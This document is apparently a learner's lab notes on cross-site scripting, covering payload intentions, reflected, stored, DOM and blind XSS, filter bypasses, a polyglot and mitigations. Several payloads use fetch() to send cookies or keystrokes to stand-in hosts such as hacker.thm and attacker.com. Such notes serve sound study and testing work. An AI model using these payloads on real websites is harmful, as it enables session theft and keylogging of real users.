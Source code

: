 Cross-Site Scriptinng is an injection attack where malicious JavaScript gets injected into a webapp and gets executed.

## XSS Payloads
A payload is the JavaScript code executed on the victim’s browser. Every payload consists of two elements:
- **Intention** – What the payload should do (e.g., alert box, cookie theft)
- **Modification** – Adjustments to ensure execution in different contexts
### Common Payload Intentions
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
#### Proof of Concept

```html
<script>alert('XSS');</script>
```

#### Session Stealing

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

#### Keylogger

```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key)); }</script>
```

#### Business Logic Abuse

```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

---
## Types of XSS

### Reflected XSS
- Occurs when user input in a request is reflected in the response without validation.
- Example: `?error=<script>alert('XSS')</script>`

**Testing:**  
Check reflection points in:
- URL query parameters
- File paths
- (Sometimes) HTTP headers

**Impact:**  
Attackers can craft malicious links that, when clicked by victims, execute arbitrary scripts.

---
### Stored XSS
- Payload is stored on the web application (e.g., in a database) and later executed for other users.
- Common locations: blog comments, profile fields, product listings

**Example:**

```html
<script>alert('XSS')</script>
```

**Impact:**  
Malicious code executes every time users view the affected content.

**Testing Tips:**
- Bypass frontend-only restrictions (e.g., change a dropdown field value to a script via manual request)    

---
### DOM-Based XSS

- Vulnerability exists in client-side JavaScript, not backend.
- Triggered via DOM manipulation using attacker-controlled input.

**Example:**

```js
document.getElementById("output").innerHTML = window.location.hash;
```

Payload: `https://site/#<script>alert(1)</script>`

**Impact:**  
Can lead to content injection, redirection, session theft.

**Testing:**
- Look for unsanitized use of:
    - `window.location`
    - `document.referrer`
    - `document.write()`
    - `eval()`        

---
### Blind XSS
- Like stored XSS, but the attacker cannot see the result directly.
- Payload is triggered in a different context (e.g., admin portal, staff ticket viewer).

**Example:**  
Support form accepts input:

```html
<script>fetch('https://attacker.com?c=' + document.cookie);</script>
```

**Impact:**  
Leaks sensitive staff session data or portal content.

**Testing Tools:**
- [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express)    
---
## Practical Levels – Executing `alert('THM')`

### Level 1 – Reflected in raw HTML

Payload:

```html
<script>alert('THM');</script>
```

### Level 2 – Reflected in input `value=""` attribute

Payload:

```html
"><script>alert('THM');</script>
```

### Level 3 – Reflected in `<textarea>`

Payload:

```html
</textarea><script>alert('THM');</script>
```

### Level 4 – Injected inside a JavaScript block

Payload:

```js
';alert('THM');// 
```

### Level 5 – Filter removes the word `script`

Bypass filter with:

```html
<sscriptcript>alert('THM');</sscriptcript>
```

After filter → becomes:

```html
<script>alert('THM');</script>
```

### Level 6 – Reflected in an `img` tag, angle brackets filtered

Bypass with:

```html
/images/cat.jpg" onload="alert('THM');
```

---

## XSS Polyglot

An XSS polyglot can bypass filters, escape contexts, and trigger execution across many different scenarios.

Polyglot Payload:

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

---

## Mitigation Strategies

- Escape special HTML characters (`<`, `>`, `"`, `'`, `&`)
    
- Apply strict **Content-Security-Policy (CSP)**
    
- Sanitize and validate all user input on the **server-side**
    
- Avoid using `innerHTML`, `eval()`, or `document.write()` with untrusted data
    
- Use frameworks that automatically prevent XSS (e.g., React, Angular)
    




# Reflected XSS
this type of XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected

# Stored XSS
this type happens when the XSS payload is stored in the web application (commonly its database) in the way that it then runs on every users that tries to access or interact with the site or web page where it is triggered. 
